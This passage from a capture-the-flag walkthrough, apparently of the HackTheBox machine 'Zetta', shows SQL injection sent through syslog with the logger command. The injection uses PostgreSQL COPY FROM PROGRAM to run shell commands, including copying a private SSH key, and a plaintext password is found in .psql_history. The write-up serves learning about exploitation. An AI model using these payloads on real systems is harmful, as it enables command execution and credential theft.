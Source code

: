 ```
$ logger -s -p local7.info "', now()); DROP TABLE IF EXISTS cmd; CREATE TABLE cmd(out TEXT); COPY cmd FROM PROGRAM \$cmd\$rm /tmp/moss\$cmd\$; --"
```

<a class="image-popup">
![8133b35a.png](/assets/images/posts/zetta-htb-walkthrough/8133b35a.png)
</a>

Bam. Long story short, this `postgres` account left the SSH private key in the home directory `/var/lib/postgresql`. Let's copy the key to `/tmp` for easy access.

```
$ logger -s -p local7.info "', now()); DROP TABLE IF EXISTS cmd; CREATE TABLE cmd(out TEXT); COPY cmd FROM PROGRAM \$cmd\$cp /var/lib/postgresql/.ssh/id_rsa /tmp/sshh; chmod 666 /tmp/sshh\$cmd\$; --"
```

<a class="image-popup">
![7c864680.png](/assets/images/posts/zetta-htb-walkthrough/7c864680.png)
</a>

## Final Privilege Escalation

Armed with the SSH private key of `postgres`, I can simply log in to the account through SSH.

<a class="image-popup">
![227bc178.png](/assets/images/posts/zetta-htb-walkthrough/227bc178.png)
</a>

During enumeration of the postgres account, I notice its password lying around in the `.psql_history`.

```
$ cat .psql_history
CREATE DATABASE syslog;
\c syslog
CREATE TABLE syslog_lines ( ID serial not null primary key, CustomerID bigint, ReceivedAt timestamp without time zone NULL, DeviceReportedTime timestamp without time zone NULL, Facility smallint NULL, Priority smallint NULL, FromHost varchar(60) NULL, Message text, NTSeverity int NULL, Importance int NULL, EventSource varchar(60), EventUser varchar(60) NULL, EventCategory int NULL, EventID int NULL, EventBinaryData text NULL, MaxAvailable int NULL, CurrUsage int NULL, MinUsage int NULL, MaxUsage int NULL, InfoUnitID int NULL , SysLogTag varchar(60), EventLogType varchar(60), GenericFileName VarChar(60), SystemID int NULL);
\d syslog_lines
ALTER USER postgres WITH PASSWORD 'sup3rs3cur3p4ass@postgres';
```

Recall the `TuDu` entry about the password scheme? Could this be `root`\'s password as well?
